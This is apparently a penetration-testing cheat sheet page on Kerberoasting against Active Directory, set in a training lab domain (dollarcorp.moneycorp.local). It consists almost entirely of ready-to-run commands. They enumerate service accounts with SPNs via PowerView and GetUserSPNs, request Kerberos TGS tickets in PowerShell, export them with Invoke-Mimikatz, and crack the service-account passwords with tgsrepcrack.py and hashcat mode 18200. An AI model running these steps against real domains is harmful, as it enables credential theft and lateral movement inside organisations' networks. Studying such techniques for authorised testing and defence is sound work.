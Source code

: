 # 🟢 Kerberoast

### **Find user accounts used as service accounts**

```
. ./GetUserSPNs.ps1
```

```
Get-NetUser -SPN
```

```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```



### **Reguest a TGS**

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```

or

```
Request-SPNTicket "MSSQLSvc/dcorp.dollarycorp.local"
```

### **Export ticket using Mimikatz**

```
Invoke-Mimikatz -Command '"Kerberos::list /export"'
```

### **Crack the ticket**

Crack the password for the service account

```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

```
.\hashcat.exe -m 18200 -a 0 <HASH FILE> <WORDLIST>
```

<table data-card-size="large" data-view="cards" data-full-width="true"><thead><tr><th></th><th></th><th></th><th data-hidden data-card-cover data-type="files"></th></tr></thead><tbody><tr><td></td><td></td><td></td><td><a href="../.gitbook/assets/Kerberoasting.png">Kerberoasting.png</a></td></tr><tr><td></td><td></td><td></td><td></td></tr><tr><td></td><td></td><td></td><td></td></tr></tbody></table>

